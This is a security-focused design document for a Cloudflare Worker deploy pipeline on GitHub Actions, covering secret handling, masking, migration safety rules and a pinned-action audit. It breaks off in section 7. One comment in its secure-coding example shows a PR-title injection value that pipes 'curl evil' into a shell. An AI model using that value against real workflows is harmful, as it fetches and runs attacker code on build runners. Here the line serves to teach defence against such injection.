

# Worker CI/CD: design

Status: design for the workstream #196 (this doc) -> #199 (owner: token, environments, decisions) -> #197 (CI-safe smoke) and #198 (migration lint) -> #200 (CI workflow) -> #201 (deploy workflow) -> #202 (migrations before deploy) -> #203 (runbook and doc updates). This file is the contract for #197-#203: names, rules and job graph are fixed here. If an implementation ticket finds that something here is wrong, it comments on #196 and the doc is corrected first.

Every claim is tagged:

- **[V]** verified by the author (a repo file, a command output or an official page; the source is named).
- **[R]** not verified (no source found or not testable without production). A later ticket must verify it or accept the risk; the "How to find out" is given where possible.
- **[P]** a proposal (a design decision, not a fact).

Public repo: this doc contains no secret values, no account id, no D1 id and no workers.dev subdomain, and neither may anything derived from it.

## 1. Context and goal

- The Worker (`worker/`) is deployed by hand today: `npx wrangler deploy -c wrangler.local.toml` from `worker/`, with the real D1 id only in the gitignored `worker/wrangler.local.toml` [V CLAUDE.md, docs/architecture.md section 4].
- Migration `0002_library_indexes.sql` had to be applied to production by the owner by hand, because the agents' permission system denies production changes [V #122, ticket text of #196]. The workflow is the sanctioned path from now on; the hand-applied 0002 is the last exception.
- Owner request (2026-10-11): the Worker deploys and D1 migrations apply automatically on merge to master [V #196].
- Owner decision (2026-10-11): a Cloudflare API token may live as a GitHub **environment** secret for the Worker deploy only, and (second decision, same day) it is the owner's existing token, not a new scoped one (section 3 rule 1). The earlier "GitHub is not used for secrets" text was about the removed ingest workflow and stays true for ingest [V #196]. The old `ingest` environment (#75) is unrelated.
- Agents never touch production: agents write and review workflow files, the owner creates the secrets and environments, the run is triggered by the merge [V #196].
- The Worker's own secrets (`TG_BOT_TOKEN`, `SUBSONIC_USER`, `SUBSONIC_PASSWORD`) stay in Cloudflare and are never given to GitHub [V #199]. `worker/wrangler.toml` has no `[vars]`, so a deploy changes none of them [V worker/wrangler.toml]. That deploy preserves existing secrets is the normal Workers behaviour [R]: #201 must state in its PR how it was checked (first real run, then `wrangler secret list` by the owner).

## 2. Pipeline stages



Text form:

| Event | What runs | Secrets | Result |
| --- | --- | --- | --- |
| `pull_request` touching `worker/**` | `worker-ci.yml`: `npm ci`, `npx tsc --noEmit`, migration lint on migrations added or changed by the PR, `smoke:ci` | none | pass/fail check |
| `push` to master touching `worker/**` | `worker-ci.yml` again (cheap, same checks) and `worker-deploy.yml`: `plan` -> `migrate` -> `deploy` (+ health check) | environment secrets only in `migrate` and `deploy` | production updated |
| `workflow_dispatch` on master | `worker-deploy.yml` only (emergency or re-run) | as above | production updated |

Failure behaviour [P]:

- Migration fails -> `deploy` is skipped by `needs:`; the run is red; production keeps the old Worker code (which works with and without the new migration, section 5.1).
- `wrangler d1 migrations apply`: if a migration errors, "this migration will be rolled back, and the previous successful migration will remain applied" [V https://developers.cloudflare.com/d1/wrangler-commands/]. Whether a multi-statement migration file is atomic is not stated on that page [R]. Do not rely on atomicity: that is why the Time Travel bookmark is recorded first.
- Deploy fails -> the migrations stay applied (additive, harmless); fix forward or roll back the Worker (section 9).
- Health check fails -> the run is red and the summary prints the `wrangler rollback` command. No automatic rollback [P]: a rollback is itself a production change and needs a human decision.

File names [P]: `.github/workflows/worker-ci.yml` (display name `Worker CI`, job id `ci`, so the check is `Worker CI / ci`, stable for a future required check) and `.github/workflows/worker-deploy.yml` (display name `Worker deploy`). These are the names the tickets #200 and #201 already use.

## 3. Security model

1. **Token (owner decision, 2026-10-11: no separate token, use the existing one).** The pipeline uses the owner's EXISTING Cloudflare API token, the same one that is in the owner's local `.env` as `CLOUDFLARE_API_TOKEN`. It is stored as the GitHub environment secret `CLOUDFLARE_API_TOKEN` (wrangler's own variable name [V https://developers.cloudflare.com/workers/wrangler/system-environment-variables/]) in `production` and `production-destructive`, and nowhere else. **Accepted risk:** this token is broad, its exact scope is unknown to this document [R], and a leak gives an attacker whatever the token allows in the account. The owner decided this; the document does not re-argue it. Because the token is broad, every other control below carries more weight and none of them is optional.
2. **Where the secret may live (hard rules).** (a) ONLY as an environment secret of `production` and `production-destructive`. NO repository-level secret and NO organisation-level secret may be added for this pipeline, under any name (accepted exception, owner decision 2026-10-11, #264: the organisation secrets `CLOUDFLARE_ACCOUNT_ID` (not a credential), `NPM_TOKEN` and `SENTRY_AUTH_TOKEN` remain visible to this repository; `CLOUDFLARE_API_TOKEN` is no longer visible): repository secrets are delivered to `pull_request` runs of branches in the same repository, so a single repository-level secret would put the token in reach of any PR author with write access [R: stated by the GitHub secrets docs for forks only, the same-repo case is the standard GitHub behaviour, not read in the pages fetched here]. (b) An environment secret is delivered only to a job that references that environment (`environment: production`), and only if the deployment branch policy allows the ref. (c) The policy of both environments is "selected branches" with the exact branch name `master` (not a pattern, not tags). A PR ref (`refs/pull/N/merge`) or a feature branch is refused by that policy, so a PR that edits the workflow to add `environment: production` gets nothing [P; GitHub environment behaviour [R] until the owner's first test]. `workflow_dispatch` additionally checks `github.ref == 'refs/heads/master'` in the job `if:` [P]. The owner verifies (a) and (c) in the owner ticket #199 with `gh secret list` (repo and org) and the environment settings.
3. **No `pull_request_target`**, anywhere [P]. Pull request builds get no secrets and no deploy. GitHub does not pass secrets to workflows triggered from forks, except `GITHUB_TOKEN` [V https://docs.github.com/en/actions/how-tos/security-for-github-actions/security-guides/using-secrets-in-github-actions]. The CI workflow references no secret and no `environment:` at all. The same-repo case is covered by rule 2.
4. **Permissions.** Top-level `permissions: contents: read` in both workflows; widened per job only where needed: `pull-requests: read` and `deployments: read` on the `plan` job (it asks which PR a merge commit belongs to and which commit was last deployed to `production`). Nothing gets `write` [P], with one exception (#289): the job `ci` of `worker-ci.yml` has `checks: write`, set at job level only, so that the "Test Report" step can create its check run (section 12.1). Never `pull-requests: write` (the report comments are off), never `write` in `worker-deploy.yml`.
5. **Concurrency.** CI: group per workflow and ref, `cancel-in-progress: true` (superseded PR runs are cancelled). Deploy: one group `worker-deploy`, `cancel-in-progress: false`; a running deploy or migration is never cancelled [P]. GitHub keeps at most one pending run per group and replaces an older pending run with a newer one [R]; that is acceptable because the newer run deploys a later master commit that contains the older one. As a guard against an older run executing after a newer one, the `plan` job fails (or no-ops) when `github.sha` is not the current head of master [P].
6. **Logs free of secrets.**
   - Secrets are passed as `env:` of the single step that needs them, never inline in the `run:` text, never as arguments [P].
   - Environment secrets are masked in logs by GitHub; GitHub warns that anything that is not a GitHub secret must be registered with `::add-mask::` before it is printed [V https://docs.github.com/en/actions/how-tos/security-for-github-actions/security-guides/using-secrets-in-github-actions]. Masking replaces the exact string only (and per whitespace-separated word); derived or re-encoded forms are not masked [V https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-commands for add-mask semantics; the "derived form" caveat is [R]]. Therefore: no `set -x`, no `echo` of any id, no `wrangler --verbose`, no `WRANGLER_LOG=debug`, never print the generated config file [P].
   - The job summary (`$GITHUB_STEP_SUMMARY`) also masks secrets automatically [V workflow-commands page], but the design puts only non-secret facts there: git SHA, version id, Time Travel bookmark, names of applied migrations.
   - Not logged by design: token, account id, D1 id, Worker public URL (section 4.3).
7. **No user-controlled text in shell.** Untrusted values (`github.event.*`, `github.head_ref`, `github.ref_name`, PR titles, branch names, label names) are NEVER interpolated into a `run:` script: they go through `env:` and are used as `"$VAR"`. Decisions on labels are made in an `if:` expression on the event payload, never inside a script [P]. Example:

   ```yaml
   # WRONG: the title is pasted into the shell text, so a title like  "; curl evil | sh  runs
   - run: echo "PR is ${{ github.event.pull_request.title }}"
   # RIGHT: the value is data in an environment variable
   - env:
       PR_TITLE: ${{ github.event.pull_request.title }}
     run: echo "PR is $PR_TITLE"
   ```
8. **Third parties:** only three actions, pinned to full SHAs (section 6). No third-party action ever receives the Cloudflare token: wrangler is plain `npx wrangler` from the lockfile. The only third-party action that receives the default `GITHUB_TOKEN` is `mikepenz/action-junit-report` in `worker-ci.yml` (#289), with `checks: write` and nothing else.
9. **Blast radius if the token leaks (accepted risk, [R] exact scope unknown).** With a broad token an attacker can do whatever the token's permissions allow in the account: at least deploy or replace Workers scripts, read or edit D1 (including deleting data), and possibly more (other products, zones, DNS), depending on what the owner granted when it was created; this document cannot know. Consequences specific to this project: replace the Worker code (e.g. exfiltrate the Worker's secrets `TG_BOT_TOKEN`, `SUBSONIC_*` by deploying code that reads them), read or destroy the library metadata. Detection [P]: unexpected Worker versions in `wrangler deployments list` / the Cloudflare audit log (Cloudflare dashboard, account audit logs [R: exact availability per plan]), unexpected runs or an unreviewed run of "Worker deploy" in GitHub Actions, failing health check. Recovery [P], in this order: (1) revoke the token in the Cloudflare dashboard (this stops the pipeline and the owner's local tooling at once); (2) `wrangler rollback` to the last known good version, or redeploy from master with the new token; (3) if D1 was touched, Time Travel restore to a bookmark before the incident (section 9.2); (4) rotate the Worker secrets (`TG_BOT_TOKEN` via BotFather, `SUBSONIC_PASSWORD`) if the Worker code could have been replaced, per docs/architecture.md section 4; (5) create a new token, update the environment secrets (rotation, below), review the Actions run list.
10. **Rotation.** The same token is in two places: the owner's local `.env` and the two GitHub environment secrets. The owner rotates it in the Cloudflare dashboard (roll or recreate the token), then updates the local `.env` and BOTH environment secrets (`gh secret set CLOUDFLARE_API_TOKEN --env production` and `--env production-destructive`, value typed at the prompt, never pasted into a command line, chat or ticket), then checks that a `workflow_dispatch` run still passes. Rotating one place only breaks the other. A calendar reminder with an expiry date is recommended [P].
11. **The PR + review flow is a convention today, not a control.** On master the only rules are `deletion` and `non_fast_forward` (`gh api repos/kolenkainc/cowlic/rules/branches/master` returned exactly `deletion` and `non_fast_forward`, checked by the author and the reviewer on 2026-10-11 [V]): there is no required pull request, no required review and no required status check. Anyone with write access can push directly to master, and a push to master deploys to production with the broad token. The "no required reviewers on `production`" default (section 10) is only sound if master is actually protected. Recommendation [P], an owner decision in #199: a repository ruleset for master that (a) requires a pull request, (b) requires the status check `Worker CI / ci`, (c) requires 0 approvals, and (d) blocks direct pushes (bypass list empty or the owner only for emergencies). Why 0 approvals: the flow is agent-authored PR -> pr-reviewer comment and label -> merge by the ticket-worker; the owner is not an approver and a required approval would block that flow; the independent review stays a convention enforced by the label check described in CLAUDE.md, while the ruleset enforces the technical minimum (PR + green CI). With the ruleset the agent flow is unchanged: the ticket-worker opens a PR, waits for the check and the review label, and merges the PR through `gh pr merge --squash`, which the ruleset allows when `Worker CI / ci` is green. Without the ruleset the owner accepts that any push to master is a production deploy.

## 4. Injecting the real ids without writing them to the repo or the log

### 4.1 Facts

- `worker/wrangler.toml` has `database_id = "REPLACE_AFTER_d1_create"`, `database_name = "cowlic"`, `migrations_dir = "migrations"` and no `account_id` [V worker/wrangler.toml]. It stays that way: the placeholder is never replaced in the repo.
- Wrangler reads the account from the environment variable `CLOUDFLARE_ACCOUNT_ID` ("The account ID for the Workers related account") [V https://developers.cloudflare.com/workers/wrangler/system-environment-variables/]. So the account id needs no file at all: it is only an `env:` entry of the wrangler step.
- The D1 id must be inside a config file passed with `--config` (`-c` works in the repo's own commands, e.g. `npx wrangler deploy -c wrangler.local.toml` [V CLAUDE.md]; the Cloudflare commands page documents `--config` generally [V https://developers.cloudflare.com/workers/wrangler/commands/workers/]).
- Wrangler resolves `main` and `migrations_dir` relative to the config file location [R: standard behaviour, not read in the docs here]. Therefore the runner-local config must be written next to `wrangler.toml`, in `worker/`, not in `$RUNNER_TEMP`. #201 confirms it with a dry run (`wrangler deploy --dry-run -c wrangler.ci.toml`, no secrets needed, to be run in the rehearsal) [P].

### 4.2 Exact procedure (one small step, used by `migrate` and `deploy`)

Step "Write runner-local wrangler config" in `worker/`, with `env: D1_DATABASE_ID: ${{ secrets.D1_DATABASE_ID }}` and nothing else from secrets [P]:

1. **Validate first, mask second** (a Node script reading `process.env.D1_DATABASE_ID`, no echo): the value must match the D1 id format (a lowercase UUID: `^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$`; the whole string, single line). On mismatch the step fails with a fixed generic message and prints NO value (allowlist, reject invalid, never sanitise) [P; D1 ids being UUIDs is [R], the first run proves it].
2. Only after validation, `echo "::add-mask::$D1_DATABASE_ID"` (belt and braces: environment secrets are already masked by GitHub; add-mask also covers the value where GitHub's own detection could miss it; because the value is already known to be a single-line UUID, it cannot smuggle workflow commands) [V add-mask semantics: workflow-commands page; the ordering is [P]]. This step has to run before anything else prints the value.
3. Substitute the placeholder with a tiny Node script reading `process.env.D1_DATABASE_ID` (no shell expansion of the value in script text, no `sed` delimiter issues) [P]. It reads `wrangler.toml`, requires that the placeholder occurs exactly once, replaces it, writes `wrangler.ci.toml` with mode 600 [P].
4. Assert the result does not contain the placeholder and print only a fixed text such as `runner-local config written` [P]. Never `cat` the file.
5. Later wrangler steps use `-c wrangler.ci.toml`. The file lives only on the ephemeral runner, is never uploaded (no `upload-artifact` is used anywhere: not in the audit table [P]), never committed. **`.gitignore` on master covers `wrangler.local.toml` but NOT `wrangler.ci.toml` [V .gitignore, checked 2026-10-11].** The line `wrangler.ci.toml` (same style as the existing `wrangler.local.toml` entry) is added to `.gitignore` in the same PR as this design (PR #206), so it is in place before any step writes the file; without it a local `git add .` could commit the real D1 id to a public repo. `actions/checkout` uses `persist-credentials: false`, so the job has no git credentials to push with anyway [P].
6. The deploy step runs `npx wrangler deploy -c wrangler.ci.toml` with `env: CLOUDFLARE_API_TOKEN: ${{ secrets.CLOUDFLARE_API_TOKEN }}` and `CLOUDFLARE_ACCOUNT_ID: ${{ secrets.CLOUDFLARE_ACCOUNT_ID }}` [P]. The install step is `npm ci --ignore-scripts` with NO secrets in its environment, so install scripts of npm dependencies never see the token [P]. Tested by the author on 2026-10-11 in a scratch copy of `worker/`: `npm ci --ignore-scripts` succeeds (the lockfile marks three packages with install scripts: `esbuild`, `fsevents`, `workerd`) and `npx wrangler deploy --dry-run --outdir out` then works with wrangler 4.149.0, bundles the Worker and prints the binding as `env.DB (cowlic)`, i.e. the database NAME, not the id [V, local run]. Not tested: `d1 migrations ... --remote`, a real deploy, and local mode (`wrangler dev`/`unstable_dev` used by the CI smoke test needs the `workerd` binary, whose install script was skipped: [R]). So the CI job (no secrets) uses plain `npm ci` for the smoke test if `--ignore-scripts` breaks it; the `migrate` and `deploy` jobs use `--ignore-scripts`.

How masking is guaranteed, honestly: GitHub masks exact secret values in logs and summaries, and the design adds `::add-mask::` and forbids printing. It is not an absolute guarantee: a program that prints a transformed value (base64, split, URL-encoded) would not be masked [R]. So the design also (a) never prints the value ourselves, (b) uses no verbose wrangler logging, and (c) requires the reviewer to check the first real run's log for the account id, D1 id and workers.dev host (#201 verification step) [P]. Wrangler's normal deploy output lists bindings and, for workers.dev, the public URL [R]; if it printed the D1 id, masking replaces it with `***`.

### 4.3 The Worker's public URL (health check)

The Worker is public by design (every endpoint but the 404 is behind Subsonic auth), so the host is not a secret in itself; certificate transparency logs and DNS reveal workers.dev hostnames anyway. The aim here is only to keep the account subdomain out of the PUBLIC run logs. `wrangler deploy` prints the workers.dev URL in its output (the owner's own terminal output shows it) [V as reported by the reviewer; the doc cannot test it without deploying], and the log of a public repository is public, so masking is the only protection.

Recommendation [P]: store it as the environment secret `WORKER_URL` (full base URL), not a variable (a variable is plain text). #201 and #199 said "variable"; they change (section 13). GitHub's masking replaces the exact string only: if wrangler prints the bare host, or the URL without scheme or with a trailing slash, the full-URL secret alone would NOT hide it. So the step that handles `WORKER_URL` (a) validates it (must parse as an `https:` URL, no credentials, no path beyond `/`), (b) derives the hostname and registers `::add-mask::` for the full URL, the host, and the account subdomain label (the part between the Worker name and `workers.dev`), each as its own value, (c) runs before the deploy step prints anything, in the `deploy` job. The first real run's log is scanned for the host and the subdomain label as a hard acceptance item of #201 [P].

Secret inventory in the environments: `CLOUDFLARE_API_TOKEN`, `CLOUDFLARE_ACCOUNT_ID`, `D1_DATABASE_ID`, `WORKER_URL`: four names in `production`; `production-destructive` needs the first three only (it runs migrations, no health check) [P]. This is the single count used everywhere in this document.

### 4.4 Alternatives considered

- **Commit the real D1 id** (it is not a credential on its own): lost. The repo rule says the real id lives only in the gitignored local file, and a public repo should not publish account infrastructure ids [V CLAUDE.md].
- **Generate the whole config in the workflow with a heredoc:** lost: it duplicates `wrangler.toml` and silently drifts when someone adds a binding or changes `compatibility_date`. The substitution keeps `wrangler.toml` the single source.
- **Pass the id as a wrangler CLI flag or `--var`:** lost: bindings cannot be overridden that way [R], and CLI arguments appear in process listings and are more likely to be echoed.
- **Use an env-substituting config feature in wrangler:** none known for `database_id` in `wrangler.toml` [R]; not relied on.
- **A `D1_DATABASE_ID` repository variable instead of secret:** lost: visible in logs.

## 5. Migration safety rules (spec for #198 lint and #202 migrations job)

### 5.1 Rules

1. **Order: migrate first, deploy second.** Enforced by `needs: migrate` on `deploy` [P].
2. **Code must work with and without the new migration.** The Worker that is live during the window between migrate and deploy is the OLD code on the NEW schema, and a rollback of the Worker leaves the NEW schema under OLD code. So every change is two-step (expand, then later contract). The #122 indexes are the model: queries were correct with or without them [V worker/migrations/0002_library_indexes.sql, header comment]. The PR template or runbook (#203) states this rule.
3. **Only additive and idempotent migrations run unattended:** `CREATE TABLE/INDEX/VIEW/TRIGGER ... IF NOT EXISTS`, `ALTER TABLE ... ADD COLUMN` (additive; not idempotent, flagged as a warning, because D1 tracks applied migrations in `d1_migrations`) [P; `d1_migrations` table V https://developers.cloudflare.com/d1/reference/migrations/].
4. **Lint rules: the header of `worker/scripts/lint-migrations.mjs` is the authoritative list** (destructive rules, the `missing-if-not-exists` requirement, the ADD COLUMN warning, pragma and schema-write rules, tautology-suspect WHERE conditions, handling of comments, string literals and quoted names, exit codes, and the `lint-migrations: ` prefix on every output line; read in PR #205 at the time of writing [V gh pr diff 205, may still change in review]). This document keeps only the policy: destructive statements (DROP, ALTER ... DROP, RENAME, DELETE and UPDATE without a real WHERE, TRUNCATE-like patterns, writes to the schema) need the label plus the approval of rule 6; CREATE without `IF NOT EXISTS` is rejected on the unattended path; the lint fails closed when unsure (exit 2); rollback statements inside SQL comments (as in 0002's header) must not trigger it [V 0002 file]. If the header and this text ever differ, the header wins and this paragraph is corrected.
5. **Existing files and the first run.** `0001_init.sql` uses `CREATE TABLE` without `IF NOT EXISTS` [V worker/migrations/0001_init.sql]. On 2026-10-11 the coordinator checked READ-ONLY that the remote `d1_migrations` table records exactly `0001_init.sql` and `0002_library_indexes.sql` and that `wrangler d1 migrations list cowlic --remote` answers "No migrations to apply" [V, checked by the coordinator on that date; not re-run by the author]. So the first workflow run is a no-op for migrations and no owner confirmation step is needed. The lint only looks at new or pending migrations, never at 0001; `0002` passes (its `DROP INDEX IF EXISTS` rollback statements are in a comment).
5a. **Applied migrations are immutable [P].** The lint of #198 in default mode keeps only files NOT present in the base ref (`git ls-tree`, interface read in PR #205 at the time of writing: usage header of `worker/scripts/lint-migrations.mjs`: default base `origin/master`, `--base <ref>`, explicit file arguments, `--approved`, exit 0 safe / 1 findings / 2 usage or parse error, fail closed [V gh pr diff 205, may still change in review]). Consequence: an EDIT of an already applied migration is never linted, and D1 would never re-apply it, so the file in git would silently drift from the real schema. Therefore #200 adds a separate check (a step or job named `migrations-immutable`, part of `Worker CI / ci` or its own check) that compares `migrations/` with the base ref and fails when any file that exists in the base ref is modified, renamed or deleted (`git diff --name-status --diff-filter=MRD <base>...HEAD -- worker/migrations`, no output allowed). Additions are covered by the lint of new files. Fixing a mistake in an applied migration is done with a NEW migration. No label bypasses this rule [P].
6. **Destructive migrations** need BOTH the PR label `destructive-migration-approved` AND the manual approval of the owner through the environment `production-destructive` (required reviewer: the owner). Label without approval: nothing runs. Approval without label: the lint fails. The label is a trigger for the route, not an authorisation: anyone with triage rights can add a label, only the environment reviewer can approve [P]. The owner creates the label if missing, through the planner (agents do not change repo settings) [V #200].
7. **Time Travel bookmark before applying**, written to the job summary together with the restore command; if the bookmark cannot be read, the job fails and nothing is applied (fail closed) [P].
8. **A failed migration stops the deploy** (job graph, section 2).
9. **No-op when nothing is pending:** `wrangler d1 migrations list DB --remote` lists unapplied migrations [V https://developers.cloudflare.com/d1/wrangler-commands/]; empty means a green no-op with the summary line "no pending migrations".
10. **Rollback rules** for a migration: either the rollback statements written as comments in the file, run by the owner, or a Time Travel restore (section 9).

### 5.2 Wrangler behaviour used, with verification status

| Command | Claim | Status |
| --- | --- | --- |
| `wrangler d1 migrations apply <DB> --remote` | applies unapplied migrations on the remote DB; asks for confirmation; "The confirmation step will be skipped" in CI, and "a backup will be captured" after applying | [V] flags and text: https://developers.cloudflare.com/d1/wrangler-commands/. The page does not define what counts as "CI" (probably a detected `CI` environment variable, which GitHub Actions sets) [R]: #202 must prove non-interactive behaviour in its first real run, and the job runs with a timeout (`timeout-minutes`) so a hidden prompt cannot hang it [P]. |
| `... migrations apply` default target | which DB is used when neither `--local` nor `--remote` is given | [R] the page does not say. Always pass the flag explicitly [P]. |
| `wrangler d1 migrations list <DB> --remote` | lists unapplied migrations | [V] same page. Output format for scripting [R]. |
| `wrangler d1 time-travel info <DB> [--timestamp] [--json]` | returns a bookmark for the current (or a past) point in time | [V] https://developers.cloudflare.com/d1/reference/time-travel/ and the commands page (`--json` is documented on the commands page, not on the Time Travel page). JSON shape (which field holds the bookmark) [R]: #202 reads it from a rehearsal against a throwaway local or non-production run, or parses defensively and fails closed if the field is missing. Requires Wrangler >= 3.4.0 and a database with `version: production` in `wrangler d1 info` [V time-travel page]; the repo's lockfile pins wrangler 4.149.0 [V worker/package-lock.json]. Whether this call works with the owner's token [R]: the token's scope is unknown to this document. |
| `wrangler d1 time-travel restore <DB> --bookmark=<B>` / `--timestamp=<T>` | overwrites the DB in place; returns a bookmark of the previous state so a restore can be undone; asks `OK to proceed (y/N)` | [V] time-travel page. No documented non-interactive flag [R]; so restore is a manual, interactive owner action, never done by the workflow. Retention: 30 days on Workers Paid, 7 on Free [V]. |
| `wrangler deploy -c <file>` | deploys the Worker with that config | [V] repo usage (CLAUDE.md); `--config` documented https://developers.cloudflare.com/workers/wrangler/commands/workers/. |

## 6. Supply chain: action audit table

Rule [P]: the actions are `actions/checkout` and `actions/setup-node` (published by GitHub) and, since #289, `mikepenz/action-junit-report` (a real third party, used only in `worker-ci.yml`, never in a job with secrets or `environment:`). Every action is pinned to a full commit SHA with the version in a trailing comment (`uses: owner/repo@<sha> # vX.Y.Z`); a mutable tag such as `@v6` is never used. No `cloudflare/wrangler-action`, no cache action, no artifact action, no label or comment bot. A new third-party action needs an audit row in the table below in the same PR. The pins were resolved on 2026-10-11 with `gh api repos/<owner>/<repo>/git/ref/tags/<tag>` (both tags are lightweight tags that point directly to a commit, `object.type` = `commit`, so there is no annotated tag to dereference) and the commit dates read with `gh api repos/<owner>/<repo>/commits/<sha>` [V, commands run by the author]. The age rule: at least two weeks old on the day of the audit.

| Action | Version | Full commit SHA | Dates [V] | What it does | Why needed | Audit notes [V from the action's `action.yml` at that SHA] |
| --- | --- | --- | --- | --- | --- | --- |
| `actions/checkout` | v7.0.1 | `3d3c42e5aac5ba805825da76410c181273ba90b1` | commit 2026-07-17, release 2026-07-20 (83+ days) | clones the repo at the event SHA | the workflows need `worker/` | Runs on `node24`. Its `token` input defaults to the job's `GITHUB_TOKEN` and `persist-credentials` defaults to `true` (stores the token in the local git config): set `persist-credentials: false` so no credential stays on disk. It never receives the Cloudflare secrets: they are not in its `env:` and not in its `with:`. Job permission `contents: read` is enough. |
| `actions/setup-node` | v7.0.0 | `820762786026740c76f36085b0efc47a31fe5020` | commit 2026-07-14, release 2026-07-14 (89+ days) | installs a Node version on the runner | wrangler needs Node >= 22 (lockfile: `engines: node >= 22.0.0` for a dependency; [V worker/package-lock.json]) | Runs on `node24`. Downloads Node using the default `github.token` (`token` input default), nothing else. Has a post step for cache saving, so caching is switched off explicitly: `package-manager-cache: false` and no `cache:` input (an automatic cache is only active when `devEngines.packageManager` or the top-level `packageManager` field of `package.json` names npm; `worker/package.json` has neither [V], but explicit is safer: a shared cache is a poisoning surface for a job holding a deploy token) [P]. |
| `mikepenz/action-junit-report` | v6.5.0 | `a9170d5795813c01ab4901ffb045b52bab4ab09d` | commit 2026-08-27 (signature verified by GitHub), release 2026-08-28 (47 days at the audit, 2026-10-14) | reads JUnit XML files and publishes a check run (and a job summary) with the counts and failure annotations | the "Test Report" step of #289 | Audited 2026-10-14 by reading `action.yml`, `src/main.ts`, `src/annotator.ts`, `src/testParser.ts` and `package.json` at that SHA [V]. Maintainer: the individual account `mikepenz` (no organisation, a single maintainer); repository created 2021-01-17, about 429 stars, 156 forks, Apache-2.0, not archived, releases about monthly (v6.0.0 2025-11 to v6.6.1 2026-10-08) [V gh api]. Runs on `node24`, `dist/index.js` is a bundled build. Token: input `token`, default `github.token`; it calls only `checks.create` (needs `checks: write`) and, when `comment: true` or `update_check`, the issues/checks APIs: with `comment: false` (set) no `pull-requests: write` is needed. Network: the source performs no request other than the GitHub API through `@actions/github` (`octokit`); the only other code path is local `fs` and `glob` reads of the report file. A grep of the bundle for URLs finds only `api.github.com` as an endpoint (the rest are spec links in comments of the bundled undici/octokit libraries) [V]. No `child_process` use in `src/`. Failure mode: a missing `checks: write` (fork PR) is only logged as an error, it does not fail the step; `require_tests` fails before any check is created. Version choice: v6.6.1 (2026-10-08) and v6.6.0 (2026-10-05) are younger than two weeks, so v6.5.0 is pinned. Not verified [R]: that the committed `dist/index.js` is exactly the build of `src/` (a bundle of about 1.9 MB was not reviewed line by line, the usual residual risk of any JavaScript action); mitigation: the action never sees a secret other than the job's `GITHUB_TOKEN`, with `contents: read` and `checks: write` only. |

Version choice notes:

- `actions/setup-node` v7.1.0 exists (2026-10-08) but is 3 days old: excluded by the two-week rule. v7.0.0 is pinned.
- `actions/checkout` v7.0.1 is the newest release; the older majors (v6.1.0, v5.1.0 ...) were re-released the same day as maintenance backports, not relevant.
- Both actions are published by GitHub itself (`actions/` organisation) [V]. The SHAs may also be re-checked by a reviewer: `gh api repos/actions/checkout/git/ref/tags/v7.0.1` must give the SHA above, and `gh api repos/actions/setup-node/git/ref/tags/v7.0.0` the second.
- A pin to a SHA can only be as trustworthy as the maintainers' repository at that commit; the audit notes above cover the action's inputs and token handling, not a line-by-line source review [R: the `dist/` bundles were not reviewed line by line].

**Updating pins** [P]: by hand, one small PR per action ("chore(ci): bump actions/checkout to vX.Y.Z"), re-doing the audit (tag -> SHA, age >= 2 weeks, `action.yml` diff for new inputs or token use) and updating this table in the same PR. No auto-merge bot. Proposal [P]: enable Dependabot version updates for the `github-actions` ecosystem (it opens PRs only, never merges, and gives visibility of new releases and advisories for hand-bumped SHA pins); every such PR gets the same audit and the reviewer re-resolves the SHA. The owner decides whether to enable it. Dependabot would also propose cooldown-less bumps younger than two weeks, so the two-week rule is checked by the reviewer, not by the tool.

**Why plain `npx wrangler` and not `cloudflare/wrangler-action`** [P, recommendation to confirm in the PR review]:

- wrangler is already a devDependency, and its version is fixed by `worker/package-lock.json` (4.149.0 at the time of writing) [V worker/package.json, worker/package-lock.json]: no new dependency, and the same version runs locally, in CI and in smoke tests.
- The action is one more third party that would receive the deploy token as an input (Cloudflare's own example passes `apiToken` and `accountId` to it [V https://developers.cloudflare.com/workers/ci-cd/external-cicd/github-actions/]) and, as far as that page shows, adds nothing that `npx wrangler deploy` cannot do. Its internal behaviour was not audited [R].
- We need custom steps (runner-local config, Time Travel bookmark, lint gate, health check) that the action does not provide anyway.
- `npm ci` (the lockfile) would run install scripts of wrangler's dependencies; in the token jobs it is `npm ci --ignore-scripts` and that step has no secrets in its environment (section 4.2).

## 7. Cloudflare token: the existing owner token

Owner decision (2026-10-11): no separate scoped token is created; the pipeline uses the owner's existing Cloudflare API token, stored as the environment secret `CLOUDFLARE_API_TOKEN` (section 3, rules 1, 2, 9, 10). Consequences for this document:

